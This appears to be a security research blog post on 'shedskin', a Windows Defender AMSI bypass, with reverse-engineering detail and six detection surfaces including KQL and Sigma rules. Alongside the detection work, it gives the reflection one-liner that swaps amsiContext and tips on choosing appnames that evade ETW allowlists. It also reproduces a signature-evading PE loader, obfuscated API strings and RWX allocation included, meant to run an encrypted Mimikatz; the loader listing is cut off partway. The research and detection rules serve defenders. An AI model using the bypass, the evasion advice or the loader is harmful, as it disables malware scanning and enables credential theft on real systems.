Correct framing: shedskin bypasses Defender's AMSI content-scan via mpengine host-prefix routing. Other vendors' AMSI providers must be measured, not assumed.

**MsMpEng-side telemetry: silent (measured, not inferred).** Static RE on `mpengine.dll` finds 2 EventRegister sites, 7 EventWriteTransfer sites, zero on the appname-dispatch at `0x180324808..0x180324a3a`. `Bond_SpynetReport` and the `AmsiAppId` serializer fire only on a CLEAN-to-DETECTED transition. A clean scan with `appname="x"` enters no submission path and writes no MpTelemetryLog entry. Surface 4 of the detection section carries the receipts. If a future Defender update adds engine-side telemetry on an unknown appname, re-measure.

Everything measured above was on Windows 10 19045.6456 and Windows 11 26200 (build 26200.8037) with Defender signature 1.459.576.0, PowerShell 5.1 host, standard user and Administrator both. Cross-build matrix outside those two SKUs is explicitly not tested.

## the full call chain from Invoke-Expression to AmsiScanBuffer

A signatured string crosses four security boundaries on the way from PowerShell to Defender's verdict. Each hop pins to a VA or token in the versions table above (SMA.dll SHA `929048467e..`, mpengine 1.1.26090.9 SHA `0d8739ca..`, MpClient.dll SHA `1b84eec5..`, clr.dll 4.8.9345.0 SHA `217a9b19..`). One compact boundary diagram follows (managed → in-process native → ALPC → PPL mpengine), then the same chain in prose with every address pinned.

The one node drawn in the olive `focus` style is `AmsiUtils.amsiContext` (SMA Gate 2); shedskin's write lands there. The compare instruction at the far end of the chain that READS that same context's appname is also drawn `focus`. Everything between the two is a conveyor, not a decision. The terminal nodes are coloured `block` (red, Defender hits and `PerformSecurityChecks` throws) and `allow` (green, after shedskin re-routes the appname).

A compact trust-boundary view (one node per hop, addresses live in the table below):





Same chain as a linear top-down walk-through, every VA / token / RVA pinned (every label is grep-friendly in the Markdown source):

| boundary | step | address / token |
|---|---|---|
| SMA.dll managed | `ScriptBlock..ctor` → `Parser.ParseInput` → `CompiledScriptBlockData..ctor` | n/a |
| SMA.dll managed | `CompiledScriptBlockData.PerformSecurityChecks` | token `0x060026eb`, RVA `0x941d4` |
| SMA.dll managed | `AmsiUtils.ScanContent(string content, string sourceMetadata)` | token `0x06002b4e`, RVA `0xadc24` |
| SMA.dll managed | Gate 1: `ldsfld amsiInitFailed`, `brtrue → return CLEAN` | token `0x04000db9` |
| SMA.dll managed | **Gate 2: `ldsfld amsiContext`, shedskin writes here** | token `0x04000db7` |
| SMA.dll managed | `AmsiNativeMethods.AmsiScanBuffer(ctx, bytes, len, appname, session, out result)` P/Invoke | n/a |
| in-process native | `amsi!AmsiScanBuffer`, walks `AmsiContext->providers` | VA `0x180008160` |
| in-process native | `MpOAV!CComMpOfficeAV::Scan(IAmsiStream*, AMSI_RESULT*)` | RVA `0x3ff0`, critsec `this+0x70`, singleton `0x18006cf20 / 0x18006cf28` |
| in-process native | `MpClient!MpAmsiScan`, MIDL stubless proxy | RVA `0x5f450`, proxy info `0x180155890`, opnum `0x5f`, UUID `5FE1BC3B-41BF-4197-8FFE-DA2311848F**` |
| in-process native | `rpcrt4!NdrClientCall3`, ncalrpc endpoint | n/a |
| ALPC boundary | user-mode → PPL `ANTIMALWARE_LIGHT` | n/a |
| mpengine PPL | server-side NDR unmarshal + scan dispatch | n/a |
| mpengine PPL | `__rsignal` ord 16, scan dispatch | `0x18003b020` |
| mpengine PPL | AMSI dispatcher, reads `MpAMSIDropReplayPath` config | VA `0x18032b74c` |
| mpengine PPL | **`PowerShell_` branch: `wcsncmp(appname, L"PowerShell_", 11)`** | VA `0x18032b9c8` (`1.1.26090.9`), `0x180324808` (`1.1.26080.3`), wrapper `0x180336e54` → inner `0x1800ef184` |
| mpengine PPL | PS sig pack loader, returns `AMSI_RESULT_DETECTED (32768)` on match | VA `0x18032bbfa` |
| back up the chain | ALPC reply → `PerformSecurityChecks` sees `result == 32768` → throws `ScriptBlockAmsiBlockException` (`FullyQualifiedErrorId: ScriptContainedMaliciousContent`) | n/a |

Shedskin's write lands at a single IL `stsfld 0x04000db7` on the SMA.dll side (Gate 2 row). Every layer below `AmsiUtils.ScanContent` runs unchanged. The verdict differs because the appname carried in the AMSI_CONTEXT struct allocated at `AmsiInitialize('x', ...)` is `"x"`, not `"PowerShell_<ver>_..."`. mpengine's dispatcher's PowerShell_ branch at `0x18032b9c8` falls through to OTHER. The PS sig pack never runs.

Three per-process state fields govern the top of the chain: `amsiInitFailed` (SMA Gate 1), `amsiContext` (SMA Gate 2 and the handle AmsiScanBuffer uses), and the mpengine host-policy dispatch keyed on the context's stored appname. Shedskin writes one of the three (`amsiContext` → a context whose appname is `"x"`), leaving `amsiInitFailed` untouched so Rastamouse detectors stay quiet, and letting mpengine's own appname dispatch route the resulting scans away from the PowerShell sig pack. The `AmsiUninitialize(old)` call releases the old handle's resources but is NOT part of the bypass mechanism (empirically verified: swap-only also bypasses).

The ALPC hop from `MpClient!MpAmsiScan` (opnum `0x5f`) lands server-side in `mpengine!__rsignal` (ord 16) or its sibling `rsignal` (ord 17); the seven-level static chain documented in §how-the-dispatcher-is-reached continues from there into the appname wcsncmp site at `0x180324808`. Both the client-side chain above and the server-side chain are shown together in the architecture diagram at the top of §reversing-amsi.dll, MpOAV.dll, and mpengine.dll.

## M-02: the exact-32768 silent-allow bug (summary; full post linked)

Named finding, separate from shedskin and detailed in [exact-32768](/amsi-exact-32768/): `PerformSecurityChecks` in `System.Management.Automation.dll` v10.0.26100.7920 throws only when the scan result equals `32768`. The decoded IL logs and continues for the documented administrator-blocked range `16384..20479`, and values above `32768` skip the throw. PowerShell issue [#5308](https://github.com/PowerShell/PowerShell/issues/5308) asked about the administrator range in November 2017. In this round, eight sampled inputs to MpOav returned only `32768` or `1`; the administrator-registered provider composition below is a separate lab result.

Full write-up with the IL slice, method-token resolution, and administrator-range branch: **[AMSI's exact-32768 result check](/amsi-exact-32768/)**.

## detection, honestly

Half this paper is the detection half, because a bypass note that ships without a catch is marketing. Six surfaces survived the paired-evidence pass, in order of specificity, each one with its honest limit attached.

### Surface 1, the `appname` leak in ETW event 1101

I pulled the Microsoft-Antimalware-Scan-Interface provider manifest from the win11 guest and read it carefully. The provider emits exactly ONE event ID (1101) and the ScanBuffer schema has an `appname` field. Full template, from `wevtutil gp`:

```xml
<template xmlns="http://schemas.microsoft.com/win/2004/08/events">
  <data name="session"         inType="win:Pointer"       outType="win:HexInt64"/>
  <data name="scanStatus"      inType="win:UInt8"         outType="xs:unsignedByte"/>
  <data name="scanResult"      inType="win:UInt32"        outType="xs:unsignedInt"/>
  <data name="appname"         inType="win:UnicodeString" outType="xs:string"/>
  <data name="contentname"     inType="win:UnicodeString" outType="xs:string"/>
  <data name="contentsize"     inType="win:UInt32"        outType="xs:unsignedInt"/>
  <data name="originalsize"    inType="win:UInt32"        outType="xs:unsignedInt"/>
  <data name="content"         inType="win:Binary"        outType="xs:hexBinary" length="contentsize"/>
  <data name="hash"            inType="win:Binary"        outType="xs:hexBinary" length="32"/>
  <data name="contentFiltered" inType="win:Boolean"       outType="xs:boolean"/>
</template>
```

Note what is NOT in the manifest: there is no AmsiInitialize event, no AmsiUninitialize event. The provider only emits scan-time telemetry. The earlier version of this post had a "detect the Init+Uninit sequence" rule, which is impossible against this provider. Replaced below.


Shedskin's attack calls `AmsiInitialize('x', out new_ctx)`, which stores the appname `"x"` with the context handle. Every subsequent `AmsiScanBuffer(new_ctx, ...)` logs `appname = "x"` in event 1101. Legitimate PowerShell logs an appname of the form `"PowerShell_<psver>_<path-to-powershell.exe>_<winver>"` (SMA's `AmsiUtils.Init()` constructs this at every lazy init; measured on Win11 26200 as `PowerShell_5.1.26100.7920_C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe_10.0.26200.0`). Any ETW consumer that whitelists appnames starting with `PowerShell_` and flags everything else running inside a PowerShell PID catches shedskin by construction.

The rule is a four-stage filter chain: narrow to the AMSI ETW provider, narrow to PowerShell PIDs, anomaly on non-`PowerShell_` appname inside a PS PID, aggregate per PID and per time bucket. The AMSI ETW provider's event-1101 shape is stable, but the `EtwTable` reference, the field-extraction path, and the `ProcessImage` join must be adapted to your SIEM's own schema (Sentinel ASIM, Splunk Universal Forwarder, Elastic ECS, and Chronicle UDM each map these fields differently). Validate on a positive-control fire against your own tap before deploying.

```kql
// Microsoft-Antimalware-Scan-Interface provider, event 1101
// Emitted on every AmsiScanBuffer call; carries the context's appname.
// Legitimate PowerShell appname shape: "PowerShell_<process-path>_<product-version>".
// shedskin's AmsiInitialize('x', ...) leaks 'x' into every 1101 event from the attacker PID.
EtwTable
| where ProviderName == "Microsoft-Antimalware-Scan-Interface" and EventId == 1101    // filter 1
| extend ProcessImage = tolower(tostring(ProcessImage))
| where ProcessImage endswith "powershell.exe" or ProcessImage endswith "pwsh.exe"     // filter 2
| extend appname = tostring(EventData.appname)
| where not(appname startswith "PowerShell_")                                          // filter 3
| summarize events = count(), uniqueAppnames = make_set(appname)                       // aggregate
          by ProcessId, bin(TimeGenerated, 60s)
| extend pattern = "shedskin-foreign-appname-in-ps-process"                            // alert
```

The appname is a FULL identifier (`PowerShell_<path>_<version>`), not a bare host name. A `appname == "PowerShell"` check reads nothing legitimate; the prefix test above matches every legitimate PowerShell scan (both `powershell.exe` and `pwsh.exe` emit `PowerShell_`-prefixed appnames; PowerShell 7.4.21's `AmsiUtils.Init()` constructs the same `PowerShell_` prefix) and leaves non-PS impersonation alone.

The one-character appname `"x"` is a sloppy example chosen for the demo cradle. A smarter operator who wants the ETW emission to blend in has to choose carefully. The appname must NOT start with case-sensitive `PowerShell_` or the bypass dies (mpengine loads the PS sig pack). It must also not be so clearly out-of-pattern that a prefix allowlist flags it. Workable candidates: `PowerShell` without the underscore (reads as a PS variant on first glance, bypasses the mpengine match because the dispatcher's compare is `PowerShell_`), or any string that both (a) looks like a plausible AMSI appname to a human reviewer and (b) does not case-sensitive-start with `PowerShell_`. Smart ETW rules catch these by also checking the PROCESS NAME against the appname shape: a `powershell.exe` or `pwsh.exe` process emitting a scan whose appname does not start with `PowerShell_` is anomalous. If you adopt this rule, pair it with a secondary check (described in Surface 2 below) that catches the deeper anomaly.

### Surface 2, ScriptBlock content rule (plaintext form only)

PowerShell event 4104 carries the compiled scriptblock text. A Sigma rule for the plaintext form of the attack:

```yaml
title: AMSI context swap via NonPublic Static reflection
id: 3d8d7c0e-5f0e-4b1a-8a0f-4a3c2e7f1a2b
status: experimental
author: shedskin research, 2026-10
date: 2026-10-23
logsource:
  product: windows
  category: ps_script
detection:
  selection_reflection:
    ScriptBlockText|contains|all:
      - 'GetField'
      - 'amsiContext'
      - 'SetValue'
  selection_amsi_api:
    ScriptBlockText|contains:
      - 'AmsiInitialize'
      - 'AmsiUninitialize'
      - 'amsi.dll'
  condition: selection_reflection and selection_amsi_api
falsepositives:
  - legitimate script-time reflection into AmsiUtils is extraordinarily rare
level: high
tags:
  - attack.defense_evasion
  - attack.t1562.001
  - amsi.context_detachment
limitations:
  - defeated by XOR-obfuscated identifier reconstruction (see the amp cradle)
  - pair with the ETW rule above for the obfuscated form
```

For the DefineDynamicAssembly amp form, add a .NET CLR ETW rule on `AssemblyLoader_AssemblyBuilderCreated` events whose creating assembly is `System.Management.Automation` and whose created assembly is unnamed/dynamic (`"D"` or similar single-char name), from a PS process.

### Surface 3, profile.ps1 write audit

The A1 amplification deploys the shedskin cradle as `profile.ps1` so a fresh PS session is pre-bypassed on login. Enable file-access auditing on each profile path and alert on non-admin writers:

```
C:\Users\*\Documents\WindowsPowerShell\profile.ps1
C:\Users\*\Documents\PowerShell\profile.ps1
C:\Windows\System32\WindowsPowerShell\v1.0\profile.ps1
C:\Program Files\PowerShell\7\profile.ps1
```

Any write by a non-elevated user process is a hunt-worthy anomaly in most environments.

### Surface 4, server-side: bounded by static inspection (not a live PPL probe)

A natural blue-team question is whether `MsMpEng.exe` logs an anomaly when it receives an AMSI scan with an unknown or unusual appname (`"x"`, `"OFFICE_VBA_x"`, etc). Answered by static RE on the 18.5 MB `mpengine.dll` pulled from the same Win11 26200 guest. **Scope: the finding below is bounded by what static inspection of mpengine.dll shows and does NOT claim to have observed MsMpEng.exe at runtime from a PPL vantage. A secure-logger consumer (MDE / MsSense.exe) running at PPL could still receive events this static walk cannot see; the Surface 1 ETW event-1101 leak at the client side is the primary detection surface a non-PPL blue team can act on today.**

- Only 2 `EventRegister` sites and 7 `EventWriteTransfer` sites in the entire 18 MB engine binary. mpengine does not emit per-scan ETW.
- The appname-dispatch at `0x180324808..0x180324a3a` has ZERO ETW instrumentation. The dispatcher body carries 36 compare instructions in total against the 36-entry host-prefix table: 4 of them are prefix-wrapper calls at `0x180336e54` (the ones that use `wcsncmp(needle, haystack, len)` with a short length constant, serving the four prefix hosts `PowerShell_`, `OFFICE_VBA`, `Exchange Server`, `SharePoint Server`), and the remaining 32 are ordinal exact-length compares via the sibling wrapper at `0x18018081c` for the exact-match hosts (`JScript`, `VBScript`, `DotNet`, `coreclr`, `UAC`, `PromptScan`, `OdrMcp`, `VSSAMSI`, `MCPSCAN`, etc.). Zero `EventWriteTransfer` sites across the whole 36-entry walk, zero loads of any "unknown host / unrecognized appname / no match" format string. The "no match" code path is literally silent in this dispatcher body.
- `Bond_SpynetReport`, `Bond_BehaviorReport`, `Bond_AdaptiveAnomalyReport` are detection-driven. The Bond report serializer at `0x18037c742` does include an `AmsiAppId` field, but it only fires on a CLEAN-to-DETECTED transition for a scan the engine would already submit under SpyNet consent. A clean scan with any appname does not enter the submission path at all.
- `"x"` is not present in the `NoConsentRequiredAmsiAppIdSampleSubmissions` list at `0x180ce1be5`, so any hypothetical auto-upload with that appname would require explicit user consent regardless.
- No `MpTelemetryLog_*` write is triggered on scan events. The engine side has no scan-tied `CreateFileW` with a telemetry-log format string.

Translation for blue teams, scoped honestly: shedskin leaves no engine-side footprint I could find in the mpengine.dll static instrumentation sites I measured (the dispatcher body `0x180324808..0x180324a3a`, the ETW provider manifest MsMpEng ships, the dispatcher's `EventWriteTransfer` xref table). The claim is scoped to one module and one static inspection pass; it is NOT a claim about every detection path Defender ships, and it is specifically NOT a claim about MDE's secure-logger PPL consumer whose event volume cannot be measured from a non-PPL vantage. The PRIMARY detection surface a non-PPL blue team can act on today is amsi.dll's ETW event 1101 in the CLIENT process (`powershell.exe`), which is Surface 1. The remaining surfaces documented below (Surface 2 PowerShell ScriptBlock logging, Surface 3 managed-memory heuristics via ETW CLR, Surface 4 AMSI provider telemetry when a third-party sibling is registered, Surface 5 ETW-TI if a PPL consumer is present, Surface 6 anomaly on `AmsiInitialize` call cadence) each catch adjacent or downstream behavior but do not independently witness the swap. If your SIEM is not reading the AMSI ETW provider inside PS PIDs, Surface 1 is dark and you depend on the weaker downstream surfaces alone.


### Surface 5, ETW-TI kernel observability

Microsoft-Windows-Threat-Intelligence (provider GUID `{F4E1897C-BB5D-5668-F1D8-040F4D8DD344}`) is the kernel-side provider that fires on syscall-boundary writes (NtWriteVirtualMemory, NtProtectVirtualMemory with executable transitions, APC injection, cross-process writes). The provider is PPL-sealed: a non-PPL user-mode process cannot subscribe to it even as SYSTEM. Measured directly on Win11 26200.8037, Defender platform 1.1.26080.3, 2026-10-24, running as SYSTEM via qemu-ga:

- `logman query providers "Microsoft-Windows-Threat-Intelligence"` returns "Element not found" (exit 1). Same error on `logman start` of the provider by GUID with full keywords and 0xFF level.
- `Microsoft-Windows-Threat-Intelligence/Analytic` channel exists in the manifest (`wevtutil gl` lists it), enabling with `wevtutil sl /e:true` succeeds. Reading events after a positive-control fire (10 iterations of NtProtectVirtualMemory to PAGE_EXECUTE_READ + 10 NtWriteVirtualMemory on a self-allocated page) returns zero publisher events. The channel is a declared sink; actual events route to the secure-logger whose consumers are PPL-only (MsMpEng.exe, MsSense.exe when MDE is installed).

Two arms, Defender/Operational channel cleared between each:

- **Pos-control arm**: 10 cycles of `NtProtectVirtualMemory(..., PAGE_EXECUTE_READ, ...)` + 10 cycles of `NtWriteVirtualMemory(GetCurrentProcess(), page, bytes, len, &written)` on a self-allocated 0x1000 page. `Microsoft-Windows-Windows Defender/Operational` events in a 60s window after fire: 1 (a 5007 config-change from earlier `Add-MpPreference`). No 1116/1117/1118. Defender's TI consumer does not alert on same-process JIT-shape patterns on this build.
- **Shedskin arm**: 10 iterations of `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null, newCtx)`. Context swap verified (`old=0x1f7f8b52950 new=0x1f7f8f8bcb0`). Defender/Operational events: 1 (same 5007). No 1116/1117/1118.

Both arms are indistinguishable at the Defender-observable layer. The shedskin write is a managed-GC-tracked object store below the syscall boundary that ETW-TI watches, so there is architecturally no event to raise. Honest reader-facing caveat: a defender on this box cannot run the TI provider themselves at non-PPL even as SYSTEM to independently verify, which is itself an observability gap for in-house SIEM pipelines that do not run an MDE/Defender PPL consumer.


### Surface 6, per-process AMSI latency (promoted from the perf side-channel)

The 10k-sample measurement in §the-perf-side-channel is a detection surface in its own right. A SIEM with per-process AMSI-latency ETW visibility measures the AmsiScanBuffer-equivalent dwell time per PID and alerts on sustained sub-10 ms median after a baseline of 20 ms+. The rule has two independent passes over the same `DeviceEvents` AmsiScanBuffer table joined on `DeviceId`: a per-device baseline (slow median, confirms the sensor normally sees PS-pack dwell) and a per-process live window (fast median across many scans, confirms the drop is sustained and PS-shaped). Only devices present in both sets fire the alert. The join is what makes the signal specific: a lightly-used endpoint cannot false-positive because its baseline is empty, and a one-off fast scan cannot false-positive because the live arm requires more than 50 samples in one minute.

```kql
let suspects = DeviceEvents
| where ActionType == "AmsiScanBuffer"
| extend latency_us = toint(parse_json(AdditionalFields).DurationMicroseconds)
| summarize median_us = percentile(latency_us, 50), scanCount = count()
          by DeviceId, InitiatingProcessId, bin(Timestamp, 1m)
| where scanCount > 50 and median_us < 10000;
let baselined = DeviceEvents
| where ActionType == "AmsiScanBuffer"
| extend latency_us = toint(parse_json(AdditionalFields).DurationMicroseconds)
| summarize baseline_median = percentile(latency_us, 50) by DeviceId
| where baseline_median > 20000
| project DeviceId;
suspects
| where DeviceId in~ (baselined)
| extend pattern = "shedskin-perf-side-channel"
```

Pair with Surface 1 (appname ETW), Surface 2 (ScriptBlock content), Surface 4 (state check inside PS). All three together is multi-channel coverage that reads route (appname), substance (script content), and effect (per-call latency drop).

### Honest limits

- ETW rule needs the Microsoft-Antimalware-Scan-Interface provider enabled. Not default on all SKUs. Verify.
- The 4104 rule catches the plaintext form only. The amp cradle (XOR obfuscation of every identifier plus runtime-constructed P/Invoke stubs via `System.Reflection.Emit.AssemblyBuilder`) defeats it. Compensating control is the ETW rule.
- The profile audit catches the A1 vector only. The base 4-line form touches no file on disk.
- Surface 4 is a NEGATIVE finding on the current mpengine build. Nothing stops Microsoft from adding engine-side telemetry in a future update, so re-measure if the goal is a durable detection surface.

## the perf side-channel

Shedskin leaves `AmsiScanBuffer` running, same providers, same MpOav instance. What changes is which signature pack mpengine walks: the PS pack with thousands of PS-specific rules gets swapped for a thin OTHER pack. The MpOav + MpAmsiScan + MsMpEng round-trip still happens, but MsMpEng's inner-loop sig evaluation drops almost all of its work. I expected the arithmetic to show up in a per-call micro-benchmark. It did.

Measured on Win11 26200.8037, PS 5.1.26100.7920, Defender platform 1.1.26080.3 signature 1.459.576.0, QPC frequency 10 MHz. Payload is the C3 Mimikatz pattern (`function Invoke-Mimikatz { $dump='sekurlsa::logonpasswords' }`), captured on 2026-10-25 as DETECTED under the `PowerShell_*` pack and CLEAN under `x`/`OTHER`/`DotNet` via direct `AmsiScanBuffer`. 10,000 scans per arm, each nonced with a per-call counter to defeat `AmsiResultCache` serving warm hits. **Reproduction caveat.** The direct-scan DET cell is the one that did not reproduce on the 2026-10-29 pass against the same sig DB (see the §dispatcher-claim-measured-directly reproduction note), so this perf table is a 2026-10-25 era capture: the 5.19x delta is the quantity the measurement produced at the time, and the mechanism it reflects (pack-size difference between PS and OTHER) still shows in the mpengine static reversing. The current proof of record for the bypass is the IEX differential, not this delta.

| arm | n | mean (us) | 95% CI (us) | median (us) | p95 (us) | p99 (us) |
|---|---|---|---|---|---|---|
| ps_ctx (PS pack, full sig walk) | 10000 | 37735 | ±380 | 42853 | 52733 | 100783 |
| x_ctx (OTHER, shedskin-routed) | 10000 | 7269 | ±31 | 7115 | 10104 | 13533 |

Speedup: **5.19x**. Kolmogorov-Smirnov two-sample test on the raw distributions gives `D=0.9953`, `p ≈ 0` (distributions non-overlapping at machine precision). Mann-Whitney U = 99,948,064, same `p ≈ 0`.


A SIEM sampling per-process AMSI call latency sees post-shedskin PS running at roughly a fifth of its own baseline for signatured content. For a long-running interactive session the saving is seconds; for an automation loop firing IEX thousands of times, the signal is detectable from the outside with no sensor inside the process. The histogram's left mode is distinctive on its own.

## SMA.dll AMSI call-site enumeration (summary)

The pass-1 partial demo on the intact 2.2 MB PowerSploit `Invoke-Mimikatz.ps1` (where shedskin bypasses the outer dot-source but the inner script-block invocation still hits an OTHER-pack signature at offset 100-167) is retired to appendix §A.0. The clean end-to-end chain against Mimikatz is in §end-to-end-weaponization below.

Full dnfile walk of System.Management.Automation.dll v10.0.26100.7920 (6.3 MB build): sixteen call sites across AMSI. `AmsiUtils::ScanContent` is called from exactly ONE place (`CompiledScriptBlockData::PerformSecurityChecks` MD[9963] at IL 0x23). Native `AmsiScanBuffer` is called from exactly ONE place (`AmsiUtils::ScanContent` IL 0x1a0). No `PerformSecurityChecksAtAccessTime`, `ScanContentAtInvocation`, or similar second-pass method exists in this SMA. Nested scriptblocks go through the SAME call site, so shedskin's global `amsiContext` swap affects all of them identically. Full 16-row table is in appendix §A.

**Why swap-only also bypasses (same mechanism, cleaner statement):** `Runspaces.Pipeline::.ctor` (MD[17296]) calls `AmsiUtils::CloseSession` at IL 0x2e. Every PowerShell Pipeline construction closes an AMSI session. `AmsiScanBuffer`'s session arg therefore varies per call: PS re-opens the session per pipeline. The session machinery is per-pipeline, not per-context, so the `AmsiUninitialize(old)` leg of shedskin is cosmetic for the bypass. The swap of `[AmsiUtils]::amsiContext` alone is sufficient; the uninit cleans up resources that PS itself would have closed on the next pipeline anyway.

**CLR's amsiContext still matters, for the OTHER path.** A payload that calls `[Reflection.Assembly]::Load($rawPEbytes)` on actual PE bytes (not script source) WILL hit `clr.dll`'s `AmsiScanBuffer("DotNet", ...)`. The 2.2 MB PS-source sentinel does not reach that call. SharpKatz as a .NET exe loaded via `-Assembly` mode DOES, which tightens the chain-section claim below: the `-Assembly` path sidesteps SMA's `ScanContent`, but the loaded assembly bytes still face a CLR-side DotNet-pack scan. Vendor sig coverage of the specific tool decides whether that scan blocks.

**Practical scope.** The context swap changed the verdict for the measured PowerShell-pack-exclusive inputs. It did not change the Rastamouse one-liner or other universal signatures in the appname matrix. The intact 2.2 MB PowerSploit `Invoke-Mimikatz.ps1` still blocked after the swap. These controls limit the claim to the tested signature shapes; file size and first-scan reach alone do not predict a bypass. The ETW-side proposals are separate research and have not been validated as part of this result.

Screencast of the measure.ps1 replay (25-frame, 2 fps, same session mechanics as the still above, longer dwell on P1 through P5):

<video controls preload="metadata" style="width: 100%; max-width: 960px; border: 1px solid #767e22; background: #0e100e;">
  <source src="{{ '/assets/img/posts/shedskin/shedskin-measure.mp4' | relative_url }}" type="video/mp4">
  <a href="{{ '/assets/img/posts/shedskin/shedskin-measure.mp4' | relative_url }}">Download the screencast (shedskin-measure.mp4)</a>
</video>

## end-to-end AMSI clearance: Mimikatz carrier through shedskin, LSASS ceiling reached

A bypass that stops at `Write-Host "pwn"` under a cradle buys nothing a Defender customer cares about. The receipt that settles the AMSI side of the question is a Mimikatz-pattern carrier executing on the same Win11 26200 with the same signatures running the same minute, with `sekurlsa::logonpasswords` reaching Mimikatz's code path before LSASS protection refuses the read. **The chain clears every AMSI block (pre-scan content, in-process native, aggregator, mpengine PS pack). It does NOT dump credentials: LSASS `ReadProcessMemory` returns `0x5 ACCESS_DENIED` at the PPL ceiling, below.** The intact 2.2 MB PowerSploit `Invoke-Mimikatz.ps1` (retired to appendix §A.0) hits an OTHER-pack signature on its function-header text that shedskin cannot move, so the chain changes shape: shedskin for the PS-pack arm, a custom Reflection.Emit PE loader to pass the AMSI content scan, an XOR-encrypted Mimikatz PE to pass the on-disk and in-memory sig walk. Same AMSI-side capability as `Invoke-Mimikatz.ps1`, different signature surface; the LSASS layer is a separate ceiling and is not cleared.

Measured on Win11 26200.8037, Defender 1.1.26080.3, signature 1.459.576.0, 2026-10-25. Positive control: EICAR via `AmsiScanBuffer` fires `Virus:DOS/EICAR_Test_File` immediately before AND after the arms below. The oracle is alive both ends of the run.

### the extended loader

`extended-loader.ps1` is 142 lines, 8,311 bytes. Discipline:

- No `-TypeDefinition` C# blocks. Four kernel32 primitives (VirtualAlloc, LoadLibraryA, GetProcAddress, a Marshal-friendly entry delegate) resolved via `Marshal.GetDelegateForFunctionPointer`. The bootstrap: walk `AppDomain.CurrentDomain.GetAssemblies()` for `System.dll` in the GAC, reflect into the private type `Microsoft.Win32.UnsafeNativeMethods`, pull `GetMethod('GetModuleHandle')` and `GetMethod('GetProcAddress', ...)`, invoke them with the API name assembled by `+` concat. This gets a managed `GetProcAddress` without ever writing `[DllImport("kernel32")]` or appearing in the mscorlib P/Invoke stub registry. The four kernel32 pointers resolved this way are bound to Reflection.Emit-synthesized delegate types (`Dva`, `Dll`, `Dgp`, `Ddm`) built with `AssemblyBuilder.DefineDynamicAssembly(..., Run)` plus `DefineType` with `MulticastDelegate` as the parent and matching `Invoke` signatures. The native-boundary cross is `Marshal.GetDelegateForFunctionPointer(ptr, delegateType)`, which is a BCL-public API and does not require a DllImport.
- No literal Win32 API name strings in the source. The strings `'kernel32.dll'`, `'VirtualAlloc'`, `'LoadLibraryA'`, `'GetProcAddress'` are assembled at runtime as `'k'+'erne'+'l32.dll'`, `'V'+'irtu'+'alAlloc'`, `'Loa'+'dLibr'+'aryA'`, `'Ge'+'tProc'+'Address'`. Grepping the loader source for `VirtualAlloc` returns zero hits.
- No clymb3r heritage. Function names (`Fire-Y`, `Invoke-ExportCall`), variable names (`$P`, `$base`, `$Dva`), structure parsing style (BitConverter at explicit offsets rather than StructureToPtr), and relocation application are independent re-implementations.
- Full PE loader. `IMAGE_DOS_HEADER` + `IMAGE_NT_HEADERS` parsed by offset. VirtualAlloc RWX region for `SizeOfImage`. Marshal.Copy for headers and each section's `VirtualSize` from `PointerToRawData` to `VirtualAddress`. `IMAGE_REL_BASED_DIR64` relocations applied when base differs from `ImageBase`. `IMAGE_IMPORT_DESCRIPTOR` table walked, LoadLibraryA + GetProcAddress per entry, IAT written via `Marshal.WriteInt64`. Entry called via `GetDelegateForFunctionPointer` on `base + AddressOfEntryPoint`.

Full listing, 142 lines, verbatim from the live-tested run:

```powershell
# extended-loader.ps1
# Standalone PE loader in pure Reflection.Emit. No -TypeDefinition C# block,
# no [DllImport], no literal Win32 API name string anywhere. The native boundary
# is crossed via a managed accessor on Microsoft.Win32.UnsafeNativeMethods
# obtained by walking the loaded assemblies for System.dll in the GAC. Four
# unmanaged delegates (Dva, Dll, Dgp, Ddm) are synthesized at runtime through
# an AssemblyBuilder, then Marshal.GetDelegateForFunctionPointer binds the
# kernel32 primitives.
function Fire-Y {
    param([byte[]]$P)

    $an = New-Object System.Reflection.AssemblyName('A')
    $ab = [System.Reflection.Emit.AssemblyBuilder]::DefineDynamicAssembly($an, [System.Reflection.Emit.AssemblyBuilderAccess]::Run)
    $mb = $ab.DefineDynamicModule('M')

    # Dva: delegate for VirtualAlloc(lpAddress, dwSize, flAllocationType, flProtect)
    $t = $mb.DefineType('Dva', 'Public, Class, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $c = $t.DefineConstructor([System.Reflection.MethodAttributes]'RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, @([object], [IntPtr]))
    $c.SetImplementationFlags([System.Reflection.MethodImplAttributes]'Runtime, Managed')
    $m = $t.DefineMethod('Invoke', [System.Reflection.MethodAttributes]'Public, HideBySig, NewSlot, Virtual', [IntPtr], @([IntPtr],[UIntPtr],[UInt32],[UInt32]))
    $m.SetImplementationFlags([System.Reflection.MethodImplAttributes]'Runtime, Managed')
    $Dva = $t.CreateType()

    # Dll: delegate for LoadLibraryA(lpLibFileName)
    $t = $mb.DefineType('Dll', 'Public, Class, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $c = $t.DefineConstructor([System.Reflection.MethodAttributes]'RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, @([object], [IntPtr]))
    $c.SetImplementationFlags([System.Reflection.MethodImplAttributes]'Runtime, Managed')
    $m = $t.DefineMethod('Invoke', [System.Reflection.MethodAttributes]'Public, HideBySig, NewSlot, Virtual', [IntPtr], @([string]))
    $m.SetImplementationFlags([System.Reflection.MethodImplAttributes]'Runtime, Managed')
    $Dll = $t.CreateType()

    # Dgp: delegate for GetProcAddress(hModule, lpProcName)
    $t = $mb.DefineType('Dgp', 'Public, Class, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $c = $t.DefineConstructor([System.Reflection.MethodAttributes]'RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, @([object], [IntPtr]))
    $c.SetImplementationFlags([System.Reflection.MethodImplAttributes]'Runtime, Managed')
    $m = $t.DefineMethod('Invoke', [System.Reflection.MethodAttributes]'Public, HideBySig, NewSlot, Virtual', [IntPtr], @([IntPtr],[string]))
    $m.SetImplementationFlags([System.Reflection.MethodImplAttributes]'Runtime, Managed')
    $Dgp = $t.CreateType()

    # Ddm: delegate for DllMain(hinst, reason, reserved)
    $t = $mb.DefineType('Ddm', 'Public, Class, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
